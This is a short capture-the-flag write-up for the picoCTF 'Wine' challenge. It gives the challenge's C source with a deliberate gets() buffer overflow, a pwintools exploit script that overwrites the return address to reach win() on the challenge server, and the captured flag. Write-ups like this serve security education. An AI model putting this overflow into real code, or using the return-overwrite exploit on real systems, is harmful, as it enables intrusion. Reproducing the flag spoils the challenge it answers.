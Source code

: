 # Wine

Very simple return overwrite with buffer overflow, but in Windows!

Source Code:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void win(){
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if running on picoCTF servers.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

void vuln()
{
  printf("Give me a string!\n");
  char buf[128];
  gets(buf);
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);
  vuln();
  return 0;
}
```

Quite obviously, we have a buffer overflow in the method `vuln()`
Since this is running in Windows, we have to use a different tool
When you run GDB on the file, and disassemble win, we get an address of `0x401530`

Now, our biggest issue is getting some sort of pwn script to run on Windows.

From a quick google search, you can find a tool called pwintools, which is pwntools adapted for Windows.

After downloading, this is the final script.

```python
from pwintools import *

#con = Process("D:/Downloads/vuln.exe")
con = Remote("saturn.picoctf.net", 50285)

payload = ""
payload += "a" * 140
payload += p64(0x401530)
con.sendline(payload)
con.interactive()
```

This prints out the flag, then a bunch of segfault related things, but we have our flag!

Our flag is: `picoCTF{Un_v3rr3_d3_v1n_cdac4d01}`
